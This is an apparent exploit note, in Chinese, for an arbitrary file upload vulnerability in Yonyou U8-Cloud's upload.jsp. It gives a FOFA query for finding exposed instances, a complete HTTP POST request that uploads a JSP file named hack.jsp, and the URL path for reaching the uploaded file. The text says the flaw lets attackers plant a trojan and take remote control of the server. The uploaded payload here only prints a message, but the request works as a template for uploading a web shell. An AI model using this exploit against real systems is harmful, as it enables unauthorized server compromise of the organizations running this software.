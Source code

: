 # 用友U8-Cloud upload任意文件上传漏洞


## 用友U8-Cloud upload任意文件上传漏洞
该系统upload.jsp存在任意文件上传漏洞，攻击者可通过该漏洞上传木马，远程控制服务器

## fofa
```app="用友-U8-Cloud"```

## exp
```
POST /linux/pages/upload.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0
Connection: close
Content-Length: 31
Content-Type: application/x-www-form-urlencoded
filename: hack.jsp
Accept-Encoding: gzip

<% out.println("The website has vulnerabilities!!");%>
```
## 漏洞复现
![](https://img-blog.csdnimg.cn/img_convert/4e222417f164a3b33772bf18041feb82.png)

![](https://img-blog.csdnimg.cn/img_convert/d68273de84c541f1cb5a0ac52b469b98.png)

## 路径
http://ip:port/linux/hack.jsp


